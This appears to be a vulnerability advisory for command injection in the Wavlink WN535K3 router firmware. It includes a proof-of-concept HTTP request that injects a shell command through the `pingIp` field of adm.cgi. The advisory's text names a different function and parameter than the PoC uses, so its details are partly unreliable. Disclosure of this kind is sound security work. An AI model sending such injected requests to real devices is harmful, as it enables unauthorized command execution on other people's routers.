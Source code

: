 ## Wavlink WN535K3 command injection

### Overview

* Vendor: Wavlink

* Product: Wavlink WN535K3
* Version: 20191010

* Manufacturer's address：https://www.wavlink.com/en_us/product/WL-WN535K3.html
* Firmware download address ：https://www.wavlink.com/zh_cn/firmware/details/7.html

### Vulnerability details

Wavlink WN535K3 20191010 was found to contain a command injection vulnerability in the `set_sys_cmd` function via the `command` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

#### PoC

```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 103
Origin: http://192.168.10.1
Connection: close
Referer: http://192.168.0.254
Cookie: session=562230006

page=ping_test&CCMD=4&pingIp=1;pwd;
```

